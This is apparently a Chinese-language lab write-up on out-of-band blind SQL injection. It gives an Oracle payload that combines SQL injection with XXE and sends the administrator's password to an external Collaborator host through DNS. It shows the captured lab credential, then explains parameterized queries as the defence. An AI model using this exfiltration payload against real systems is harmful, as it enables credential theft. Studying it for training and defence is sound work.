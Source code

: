 **通过带外交互获取数据实现SQL盲注**

将 SQL 注入与基本的 XXE 技术相结合

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.7u2niz3j62al88u2up1t7ujbs2ytmpae.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![image-20250502181333511](./img/image-20250502181333511.png)

```
administrator
g9a7pnifzr5usha85v4s
```

## 如何防止 SQL 注入

您可以使用参数化查询而不是查询中的字符串连接来阻止大多数 SQL 注入实例。这些参数化查询也称为 **“预编译语句**”。

要使参数化查询有效防止 SQL  注入，查询中使用的字符串必须始终是**硬编码常量**。它绝不能包含来自任何来源的任何变量数据。不要试图逐个决定数据项是否可信，并继续在查询中使用字符串连接来处理被认为安全的情况。很容易对数据的可能来源犯错误，或者对其他代码的更改造成可信数据的污染。
